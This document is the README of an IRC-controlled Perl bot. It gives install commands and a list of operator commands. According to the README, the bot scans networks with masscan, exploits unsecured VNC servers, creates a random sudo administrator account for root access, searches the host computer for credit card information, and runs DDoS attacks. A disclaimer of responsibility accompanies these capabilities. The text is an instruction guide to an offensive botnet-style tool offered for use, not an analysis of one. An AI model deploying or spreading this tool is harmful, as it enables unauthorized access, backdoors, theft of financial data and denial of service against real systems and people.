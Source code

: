 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.

# ---INSTALLATION---

git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
cd PerlIRCSSL_VNCbypass
chmod +x *
# (if using Debian, Kali or Ubuntu) 
./debian-installer.sh
# (elseif running CentOS)
./centos-installer.sh

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 

# This will scan computer for credit card info and report in the channel. (REMOVED, will see if I put it back on later...)
@.ccplz
# This will give you the current running version. 
@.version

# ---TODO--- The ddos function seems broken for now, will repair in the next couple days.
@.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos.
@.ddos.stop

# ---NOTE---
# In order for bot to work you need to be operator in the channel, it also must be registered with services.
# Follow the step-by-steps installations and you are done.
# ENJOY!
